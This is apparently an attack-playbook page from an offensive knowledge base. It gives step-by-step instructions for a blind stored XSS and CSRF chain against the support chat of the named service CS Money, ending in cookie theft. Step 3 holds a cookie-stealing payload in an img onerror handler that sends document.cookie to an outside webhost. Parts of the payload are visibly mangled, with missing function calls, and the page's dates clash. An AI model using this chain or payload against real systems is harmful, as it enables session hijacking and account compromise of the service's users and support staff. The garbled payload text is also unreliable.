

---
tags:
  - xss
  - stored-xss
  - blind-xss
  - csrf
  - cookie-theft
  - web-exploit
type: attack_chain
tools:
  - '[[tools/Burp-Suite]]'
  - '[[tools/Online-String-Tools]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
commands: []
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Intercept-and-Modify-Upload-Request-for-XSS-Injection]]'
  - '[[procedures/Upload-Image-to-Support-Chat]]'
  - '[[procedures/Modify-Filename-with-XSS-Payload]]'
  - '[[procedures/Trigger-XSS-in-Support-Chat]]'
  - '[[procedures/Exploit-CSRF-for-Unauthorized-Upload]]'
step_count: 5
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
description: >-
  Multi-stage attack exploiting blind stored XSS and CSRF in CS Money's support
  chat image upload to steal cookies and potentially compromise accounts
skill_level: intermediate
impact_level: high
id: 9ec18f37-ed4d-4c39-9c68-6cd71083f3ed
created_at: '2025-12-14T00:11:25.261Z'
updated_at: '2025-12-14T00:11:25.261Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# Blind Stored XSS via Image Upload for Cookie Theft in CS Money Support Chat

Multi-stage attack chain demonstrating a complete attack workflow exploiting a blind stored XSS vulnerability in the image upload feature of CS Money's support chat, combined with CSRF, to inject malicious JavaScript for cookie theft and potential mass account compromises.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]
- [[tools/Online-String-Tools]]

### Target Environment

- Web platform
- Services: Support Chat on support.cs.money
- Network access requirements: Ability to access and interact with the support chat endpoint

### Initial Access Requirements

- No prior credentials needed for CSRF variant
- Network position: External attacker
- Prior access needed: None for exploitation

## Detailed Attack Procedures

### Step 1: Set Up Proxy to Intercept Requests
procedure: [[procedures/Intercept-and-Modify-Upload-Request-for-XSS-Injection]]

**Objective**: Configure a proxy to capture and modify HTTP requests for injecting the XSS payload.

**Instructions**: Use [[tools/Burp-Suite]] with intercept turned on to capture the file upload request to support.cs.money/upload_file.

**Expected Output**: Intercepted HTTP request ready for modification.

**Success Indicators**:
- Proxy successfully intercepts the upload request
- Request details visible in Burp Suite

### Step 2: Upload Image to Support Chat
procedure: [[procedures/Upload-Image-to-Support-Chat]]

**Objective**: Initiate the file upload process in the support chat to generate the request.

**Instructions**: In the CS Money support chat, start uploading an image, which sends a request to the upload_file endpoint.

**Expected Output**: File upload request generated and intercepted if proxy is set up.

**Success Indicators**:
- Upload request sent successfully
- No immediate errors from the endpoint

### Step 3: Modify Filename with XSS Payload
procedure: [[procedures/Modify-Filename-with-XSS-Payload]]

**Objective**: Alter the filename parameter to include the malicious XSS payload for stored execution.

**Instructions**: In the intercepted request using [[tools/Burp-Suite]], change the filename parameter to: \"><img src=1 onerror=\"url=String104,116,116,112,115,58,47,47,103,97,116,111,108,111,117,99,111,46,48,48,48,119,101,98,104,111,115,116,97,112,112,46,99,111,109,47,99,115,109,111,110,101,121,47,105,110,100,101,120,46,112,104,112,63,116,111,107,101,110,115,61+encodeURIComponent(document\['cookie'\]);xhttp=&#x20new&#x20XMLHttpRequest();xhttp'GET',url,true;xhttp'send';\"".

**Expected Output**: Modified request forwarded to the server, storing the malicious filename.

**Success Indicators**:
- Request modification successful without errors
- Payload stored on the server

### Step 4: Trigger XSS in Support Chat
procedure: [[procedures/Trigger-XSS-in-Support-Chat]]

**Objective**: View the chat to execute the stored XSS payload and exfiltrate cookies.

**Instructions**: Open the support chat where the image was uploaded; the malicious filename renders in an img tag, triggering the onerror JavaScript payload to send cookies to the attacker's server.

**Expected Output**: JavaScript execution leading to cookie exfiltration.

**Success Indicators**:
- Cookies received on attacker-controlled server
- No user interaction required beyond opening chat

### Step 5: Exploit CSRF for Unauthorized Upload
procedure: [[procedures/Exploit-CSRF-for-Unauthorized-Upload]]

**Objective**: Use CSRF to trick users into uploading the malicious payload without authentication.

**Instructions**: Create an HTML form on an attacker-controlled server that posts to support.cs.money/upload_file with the malicious filename, luring users to submit it.

**Expected Output**: Unauthorized upload successful, propagating the XSS.

**Success Indicators**:
- Form submission leads to payload upload
- Potential for mass exploitation via support agents

## Attack Chain Summary

### Key Achievements

1. Successful injection of stored XSS via unsanitized filename
2. Cookie theft and arbitrary JS execution
3. Broader impact through CSRF for unauthorized uploads

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

*Last updated: 2023-10-01*
